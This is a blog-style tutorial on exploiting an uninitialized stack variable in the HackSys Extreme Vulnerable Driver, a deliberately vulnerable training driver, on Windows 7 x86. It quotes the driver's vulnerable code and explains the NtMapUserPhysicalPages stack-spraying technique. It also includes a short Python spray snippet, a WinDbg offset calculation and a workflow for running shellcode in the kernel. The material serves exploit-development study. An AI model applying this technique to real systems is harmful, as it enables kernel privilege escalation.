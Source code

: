 ```yaml
---
layout: post
title:  "Windows Kernel Exploitation: Uninitialized Stack Variable"
date:   2018-08-19 07:00:00
categories: windows-kernel-exploit
permalink: /archivers/Windows-Kernel-Exploitation-Uninitialized-Stack-Variable
---
```

## Overview
There is no end for learning.

In this post, I learned how to exploit the uninitialized stack variable. Especially, how to spraying in stack is interesting.

### Environment
* Debugger OS: Win7 x64
* Debuggee OS: Win7 x86
* Debug software: Windbg, IDA

## Analysis
First check the [source code](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/UninitializedStackVariable.c).
```C
#ifdef SECURE
    // Secure Note: This is secure because the developer is properly initializing
    // UNINITIALIZED_STACK_VARIABLE to NULL and checks for NULL pointer before calling
    // the callback
    UNINITIALIZED_STACK_VARIABLE UninitializedStackVariable = {0};
#else
    // Vulnerability Note: This is a vanilla Uninitialized Stack Variable vulnerability
    // because the developer is not initializing 'UNINITIALIZED_STACK_VARIABLE' structure
    // before calling the callback when 'MagicValue' does not match 'UserValue'
    UNINITIALIZED_STACK_VARIABLE UninitializedStackVariable;
#endif

    PAGED_CODE();

    __try {
        // Verify if the buffer resides in user mode
        ProbeForRead(UserBuffer,
                     sizeof(UNINITIALIZED_STACK_VARIABLE),
                     (ULONG)__alignof(UNINITIALIZED_STACK_VARIABLE));

        // Get the value from user mode
        UserValue = *(PULONG)UserBuffer;

        DbgPrint("[+] UserValue: 0x%p\n", UserValue);
        DbgPrint("[+] UninitializedStackVariable Address: 0x%p\n", &UninitializedStackVariable);

        // Validate the magic value
        if (UserValue == MagicValue) {
            UninitializedStackVariable.Value = UserValue;
            UninitializedStackVariable.Callback = &UninitializedStackVariableObjectCallback;
        }

        DbgPrint("[+] UninitializedStackVariable.Value: 0x%p\n", UninitializedStackVariable.Value);
        DbgPrint("[+] UninitializedStackVariable.Callback: 0x%p\n", UninitializedStackVariable.Callback);

#ifndef SECURE
        DbgPrint("[+] Triggering Uninitialized Stack Variable Vulnerability\n");
#endif

        // Call the callback function
        if (UninitializedStackVariable.Callback) {
            UninitializedStackVariable.Callback();
        }
    }
```
As we can see in the source code, everything is clearly explained in the source. The stack value is not initialized in the unsecure version. The `UserValue` is compared with the magic value and if it fails the `callback` call is still called which caused unexpected execution, this is the vuln.

## Explotation
The vuln is very simple, but how to exploit for this vuln? The most important thing is that how to control the value before the call.  
### Kernel Stack-Spraying Techniques
[J00ru](https://j00ru.vexillium.org/2011/05/windows-kernel-stack-spraying-techniques/) writes a post that proposed a tech to figure the porblem. The tech is amazing just like maigc happening.

There is an undocumented function, NtMapUserPhysicalPages. It's a function that copies input bytes into a local buffer on the kernel stack. Below is the part of source of this code.
```C
//
// This local stack size definition is deliberately large as ISVs have told
// us they expect to typically do up to this amount.
//
 
#define COPY_STACK_SIZE             1024
(...)
NTSTATUS
 NtMapUserPhysicalPages (
   __in PVOID VirtualAddress,
   __in ULONG_PTR NumberOfPages,
   __in_ecount_opt(NumberOfPages) PULONG_PTR UserPfnArray
 )
(...)
  ULONG_PTR StackArray[COPY_STACK_SIZE];
(...)
PoolArea = (PVOID)&StackArray[0];
 
(...)
 
  if (NumberOfPages > COPY_STACK_SIZE) {
    PoolArea = ExAllocatePoolWithTag (NonPagedPool,
                                      NumberOfBytes,
                                      'wRmM');
 
    if (PoolArea == NULL) {
      return STATUS_INSUFFICIENT_RESOURCES;
    }
  }
 
(...)
 
  Status = MiCaptureUlongPtrArray (PoolArea,
                                   UserPfnArray,
                                   NumberOfPages);
```
As shown, the syscall handler allocates a local buffer of 1024 items, each sized sizeof(ULONG_PTR) = 4 on the considered Intel x86 platform. It also allows the user to pass larger amounts of data, but as much as 4096 user-supplied bytes (exactly one memory page) can be locally stored by the function. So we can control at most 4096 bytes in kernel stack. 

The code is just like below:
```PYTHON
def Stack_filling(shellcode_address):
    
    NtMapUserPhysicalPages(None, 1024,struct.pack('<I',shellcode_address)*1024)
```

### How to use this tech
Right now what we need to know is that does it enough for this stack variable or not.

We find the kernel stack init address, run the `!thread` command in windbg, and then subtract the callback address from the stack init address to find the offset.
```C
kd> !thread
THREAD 8513c3e0  Cid 02d0.06dc  Teb: 7ffdf000 Win32Thread: fe7ffb50 RUNNING on processor 0
IRP List:
    84fda570: (0006,0094) Flags: 00060000  Mdl: 00000000
Not impersonating
DeviceMap                 974c3bd8
Owning Process            8513c6c8       Image:         pythonw.exe
Attached Process          N/A            Image:         N/A
Wait Start TickCount      99024          Ticks: 0
Context Switch Count      57             IdealProcessor: 0             
UserTime                  00:00:00.062
KernelTime                00:00:00.046
Win32 Start Address 0x1c1a13a4
Stack Init 973dcfd0 Current 973dc738 Base 973dd000 Limit 973da000 Call 00000000
Priority 8 BasePriority 8 PriorityDecrement 0 IoPriority 2 PagePriority 5
...
kd> ?973dcfd0 -973dcacc
Evaluate expression: 1284 = 00000504
```
As we can see that the offset is just 0x504. It is apparently enough.

So the exploit work-flow will be as follows: 

1. put our shellcode in memory somewhere.
2. spray the kernel stack with pointers to our shellcode.
3. trigger the uninitialized variable vulnerability.


### Code
The full exp code is in my [Github](https://github.com/ray-cp/windows-kernel-exploit/tree/master/HEVD/Uninitialized_Stack_Variable/Win7_x86)
## Conclude
So much things need to learn and thanks for researchers' sharing.
## Link
1. [HackSys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
2. [Windows Kernel Exploitation Tutorial Part 6: Uninitialized Stack Variable)](https://rootkits.xyz/blog/2018/01/kernel-uninitialized-stack-variable/)
3. [nt!NtMapUserPhysicalPages and Kernel Stack-Spraying Techniques](https://j00ru.vexillium.org/2011/05/windows-kernel-stack-spraying-techniques/)
4. [Part 13: Kernel Exploitation -> Uninitialized Stack Variable](https://www.fuzzysecurity.com/tutorials/expDev/17.html)